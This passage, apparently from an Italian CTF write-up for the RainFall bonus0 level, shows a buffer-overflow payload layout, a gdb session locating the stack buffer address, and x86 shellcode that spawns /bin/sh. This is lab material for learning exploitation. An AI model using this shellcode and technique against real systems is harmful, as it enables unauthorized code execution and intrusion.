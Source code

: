 ```
    |      |-----> | shellcode |
    |----> | A*9 | indirizzo + buffer + offset shellcode | B*7 | 
```
L'indirizzo del buffer (`0xbfffe670`) lo troviamo nel seguente modo:
```
bonus0@RainFall:~$ gdb -q bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) disass p
Dump of assembler code for function p:
   0x080484b4 <+0>:     push   %ebp
   0x080484b5 <+1>:     mov    %esp,%ebp
   0x080484b7 <+3>:     sub    $0x1018,%esp
   0x080484bd <+9>:     mov    0xc(%ebp),%eax
   0x080484c0 <+12>:    mov    %eax,(%esp)
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:    mov    %eax,0x4(%esp)
   0x080484da <+38>:    movl   $0x0,(%esp)
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
   0x080484e6 <+50>:    movl   $0xa,0x4(%esp)
   0x080484ee <+58>:    lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:    mov    %eax,(%esp)
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:    movb   $0x0,(%eax)
   0x080484ff <+75>:    lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:    movl   $0x14,0x8(%esp)
   0x0804850d <+89>:    mov    %eax,0x4(%esp)
   0x08048511 <+93>:    mov    0x8(%ebp),%eax
   0x08048514 <+96>:    mov    %eax,(%esp)
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:   leave
   0x0804851d <+105>:   ret
End of assembler dump.
(gdb) b *0x080484d6
Breakpoint 1 at 0x80484d6
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -

Breakpoint 1, 0x080484d6 in p ()
(gdb) x /x $ebp-0x1008
0xbfffe670:     0x00000000
```
Shellcode (asm):
```asm
section .text
global _start

_start:
  xor  eax, eax
  push eax
  push 0x68732f2f
  push 0x6e69622f
  mov  ebx, esp
  push eax
  push ebx
  mov  ecx, esp
  xor  edx, edx
  mov  al, 11
  and  esp, 0xfffffff0
  int  0x80
```
